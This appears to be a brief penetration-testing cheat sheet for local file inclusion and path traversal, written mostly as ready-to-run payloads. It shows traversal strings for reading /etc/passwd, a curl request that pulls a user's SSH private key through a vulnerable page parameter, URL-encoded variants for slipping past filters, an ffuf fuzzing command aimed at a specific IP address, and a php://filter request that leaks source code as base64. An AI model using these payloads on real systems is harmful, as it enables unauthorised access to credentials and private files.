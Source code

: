 ### cheat sheet
```bash
../../../../etc/passwd

```
### Example to read SSH key:
- By default, SSH searches for `id_rsa`, `id_ecdsa`, `id_ecdsa_sk`, `id_ed25519`, `id_ed25519_sk`, and `id_dsa`
- Use URL encoding (%2e%2e%2f for ../) to bypass simple filters.
```bash
curl http://target/index.php?page=../../../../home/user/.ssh/id_rsa

#Encoded
http://192.168.10.10/cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd

# Automated Scanning
ffuf -w /usr/share/wordlists/seclists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ -u 'http://94.237.54.208:36613/index.php?view=FUZZ' -fs 1935

# Decoder Base64 in index file:
GET /index.php?page=php://filter/read=convert.base64-encode/resource=index HTTP/1.1

```

 